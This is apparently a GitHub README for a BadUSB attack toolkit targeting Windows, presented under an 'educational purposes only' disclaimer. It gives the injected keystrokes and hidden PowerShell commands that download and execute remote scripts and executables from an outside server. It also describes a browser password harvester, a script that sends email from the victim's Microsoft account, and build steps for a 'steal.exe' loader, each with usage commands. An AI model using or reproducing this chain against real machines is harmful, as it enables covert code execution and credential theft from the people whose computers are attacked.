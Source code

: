 > **Disclaimer** \
> This project shall be used for **educational purposes only** \
> I (the author) take no responsibility or liability related to its usage.
> Any illegal activities are strictly forbidden.

> **Note** \
> all code targets and has been tested for Windows

# Attack flow

<picture>
  <source
    srcset="assets/SimpleAttackFlowDark.png"
    media="(prefers-color-scheme: dark)"
  />
  <source
    srcset="assets/SimpleAttackFlow.png"
    media="(prefers-color-scheme: light), (prefers-color-scheme: no-preference)"
  />
  <img src="assets/SimpleAttackFlow.png" />
</picture>


## Keys pressed by the BadUSB

1. `WIN` + `r` which opens a command prompt
    ![Windows 10 Run Command](assets/Windows10RunCommand.png)
2. type `powershell -w h "IEX(iwr('URL'))"` where `URL` is  the url to a powershell script to execute
3. `ENTER` to run the command

## Programming & Hardware
See instructions for  [EvilCrowCable-Pro](https://github.com/joelsernamoreno/EvilCrowCable-Pro) at [/evil_crow_cable](/evil_crow_cable) \
and for [WHID injector](https://github.com/whid-injector/WHID) (recommended) at [/whid_injector](/whid_injector)


## Keyboard layout
The keyboard layout used for the BadUSB has to match the one chosen at the OS. \
If this is not the case,
some keys which are placed at different locations in the different layouts will output the wrong character.

# Payloads

<picture>
  <source
    srcset="assets/PayloadsDark.png"
    media="(prefers-color-scheme: dark)"
  />
  <source
    srcset="assets/Payloads.png"
    media="(prefers-color-scheme: light), (prefers-color-scheme: no-preference)"
  />
  <img src="assets/Payloads.png" />
</picture>

## URL shortener
Shortens an url with only "safe" characters for the domain [is.gd](https://is.gd)

<details>
<summary>Details</summary>

file: [urlshortener.py](urlshortener.py) \
Characters considered "safe" for keyboards are:
```
    t uiop
asdfghjkl
 xcvbnm
```
[![img.png](assets/keyboard_layouts.png)](https://www.quora.com/What-are-the-most-common-keyboard-layouts-And-why-is-each-layout-designed-as-such)
(from [quora](https://www.quora.com/What-are-the-most-common-keyboard-layouts-And-why-is-each-layout-designed-as-such))

### requirements
```shell
pip install --upgrade aiohttp
```

### usage
```shell
python urlshortener.py https://kaliiiiiiiiii.github.io/rickroll/
# https://is.gd/tuion
```
or
```python
import asyncio
from urlshortener import create_short

async def main():
    url = "https://kaliiiiiiiiii.github.io/rickroll"
    _range = range(5, 10) # range to find urls for
    shorturl = await create_short(url, _range)
    print(shorturl)

if __name__ == "__main__":
    asyncio.run(main())
```

</details>

## Payload 1
Hides visible console window (if available) and downloads and executes `Payload 2`

<details>
<summary>Details</summary>

The code can be found at [github.com/kaliiiiiiiiii/vercel_utils_server/@main/app/pshid/route.ts](https://github.com/kaliiiiiiiiii/vercel_utils_server/blob/main/app/pshid/route.ts), and usage at [github.com/kaliiiiiiiiii/vercel_utils_server#pshid](https://github.com/kaliiiiiiiiii/vercel_utils_server?tab=readme-ov-file#pshid)

</details>

## Payload 2

### Rickroll (powershell)
- opens MS Edge on url
- sets audio volume to max
- user can't close it
- exits after `n` seconds

<details>
<summary>Details</summary>

file: [rickroll.ps1](rickroll.ps1)

#### usage
```shell
powershell -w h "IEX(iwr('is.gd/tuipo'))"
```
(download from this repo) \
or
```shell
powershell ./rickroll.ps1
```

#### configuration
You can change the `url` and `timeout` at [L96-L98](rickroll.ps1#L96-L98)

To create a short direct url to the file, run (replace `YourUserName` accordingly)
```shell
python urlshortener.py "https://raw.githubusercontent.com/YourUserName/PublicDuckyChallenger/master/rickroll.ps1"
```

#### Troubleshooting
If for some reason, you can't see your desktop anymore, perform the following steps:
1. press `CTRL` + `SHIFT` + `ESC`
2. click on `File`-> `Run New Task` in the Task-Manager
3. type `explorer` and press `ENTER`
4. 
</details>

### executable loader

downloads and executes a `.exe` file from `Endpoint 3` 

<details>
<summary>Details</summary>

The code can be found at [github.com/kaliiiiiiiiii/vercel_utils_server/@main/app/exe2ps1/route.ts](https://github.com/kaliiiiiiiiii/vercel_utils_server/blob/main/app/exe2ps1/route.ts), and usage at [github.com/kaliiiiiiiiii/vercel_utils_server#exe2ps1](https://github.com/kaliiiiiiiiii/vercel_utils_server/tree/main?tab=readme-ov-file#exe2ps1)

</details>


## Payload 3

### Password harvester
Steal all available passwords from Opera, Brave, Chrome and Firefox

<details>
<summary>Details</summary>

file: [pass_harvester/password_harvester.py](pass_harvester/password_harvester.py) (requires [firefox_harvester.py](pass_harvester/firefox_harvester.py))

### requirements
```shell
pip install --upgrade aiosqlite pywin32 pycryptodome aiofiles
```

### Usage
```shell
python  ./pass_harvester/password_harvester.py
```
or
```python
import asyncio
from pass_harvester.password_harvester import get_all_creds

async def main():
    all_creds = await get_all_creds()
    # note: creds can contain binary
    print(all_creds)

if __name__ == "__main__":
    asyncio.run(main())
```

</details>

### Edge email
Sends an E-Mail over the microsoft account on the device

<details>
<summary>Details</summary>

file: [edge_email.py](edge_email.py)
> **Note** \
> This currently only supports english and german devices.
> Feel free to add languages at [L48-L77](edge_email.py#L48-L77)

This works
because Microsoft apparently decided
to automatically log in with the microsoft account when creating a new MS-Edge profile

#### requirements
```shell
pip install --upgrade selenium-driverless
```

#### Usage
```shell
 python edge_email.py "test@test.com" "Test", "Hello there!"
```

```shell
> python edge_email.py -h
# usage: edge_email.py [-h] [--headfull] [--cc CC] to subject content
# 
# positional arguments:
#   to          The destination to send the E-Mail to
#   subject     Subject to send the E-Mail with
#   content     The content to send
# 
# options:
#   -h, --help  show this help message and exit
#   --headfull  open a window for edge
#   --cc CC
```
or
```python
import asyncio
from edge_email import write_email

async def main():
    await write_email("test@test.com", "Test", "Hello there!")
    print("E-Mail written")

if __name__ == "__main__":
    asyncio.run(main())
```

</details>



# Build executables

<details>
<summary>Instructions</summary>

### Requirements
```shell
pip install --upgrade pyinstaller
```
\+ all requirements for the python script to build

```shell
python build.py "steal.py"
```

### run
download from this repo
(executes script at [`https://vercelutilsserver.gymthun.com/exe2ps1?url=https://raw.githubusercontent.com/kaliiiiiiiiii/PublicDuckyChallenger/master/dist/steal.exe&arg=example@example.com`](https://vercelutilsserver.gymthun.com/exe2ps1?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkaliiiiiiiiii%2FPublicDuckyChallenger%2Fmaster%2Fdist%2Fsteal.exe&arg=example%40example.com))
```shell
powershell -w h "IEX(iwr('https://vercelutilsserver.gymthun.com/exehid?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkaliiiiiiiiii%2FPublicDuckyChallenger%2Fmaster%2Fdist%2Fsteal.exe&arg=example%40example.com'))"
```
or execute the exe
```shell
.\dist\steal.exe test@test.com
```
or from python
```shell
python steal.py test@test.com
```
```shell
python steal.py -h
# usage: steal.py [-h] [--headfull] [--cc CC] to
# 
# positional arguments:
#   to          The destination to send the E-Mail to
# 
# options:
#   -h, --help  show this help message and exit
#   --headfull  open a window for edge
#   --cc CC
```

### Build write Mail
set up is similar to the other build
```shell
powershell -w h "IEX(iwr('https://vercelutilsserver.gymthun.com/exehid?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkaliiiiiiiiii%2FPublicDuckyChallenger%2Fmaster%2Fdist%2Fwrite_mail.exe&arg=example%40example.com'))"
```

</details>

## Acknowledgments
Inspiration, code snippets, etc.

- [github | neonfury/extract.py (gist)](https://gist.github.com/neonfury/a34a2aadc7c084f08cb046728cd25b54#file-extract-py) | password extractor for Chromium based browsers \
- [github | foxtonforensics.com/blog/post/analysing-chrome-login-data](https://www.foxtonforensics.com/blog/post/analysing-chrome-login-data) \
- [github | unode/firefox_decrypt/firefox_decrypt.py](https://github.com/unode/firefox_decrypt/blob/2a163faf6c22f62eb0b061fa3c0b317ae2e4a343/firefox_decrypt.py) | password extractor for firefox
- [stackoverflow | change-audio-level-from-powershell](https://stackoverflow.com/a/31751275/20443541)
- [community.spiceworks.com | sending-an-email-from-outlook-via-powershell](https://community.spiceworks.com/t/sending-an-email-from-outlook-via-powershell/938248)
- [learn.microsoft | outlook.mailitem](https://learn.microsoft.com/en-us/office/vba/api/outlook.mailitem)
